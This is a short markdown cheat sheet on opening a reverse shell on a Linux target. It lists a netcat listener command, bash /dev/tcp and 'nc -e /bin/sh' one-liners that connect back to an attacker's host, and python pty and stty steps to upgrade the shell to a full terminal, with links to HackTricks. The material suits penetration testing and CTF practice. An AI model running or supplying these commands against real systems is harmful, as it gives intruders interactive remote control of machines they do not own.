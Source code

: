 ### Create a reverse bash shell

- Setup listener on your local machine
`sudo nc -lvn 9898`

- Connect to the listener from the target
-  - `bash -c 'bash -i >& /dev/tcp/your-ip/your-port 0>&1'`
-  - `nc 127.0.0.1 8888 -e /bin/sh`

- Upgrade to a shell (Use the bash when doing this. zsh doesn't seem to work)
-  - `python3 -c 'import pty; pty.spawn("/bin/sh")'` or `python3 -c 'import pty; pty.spawn("/bin/bash")'`
-  - (CTRL + Z) then `stty raw -echo; fg; ls; export SHELL=/bin/sh; export TERM=screen; stty rows 38 columns 116; reset;`
-  - Read more https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys


### A long list of ways to create a reverse shell
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux
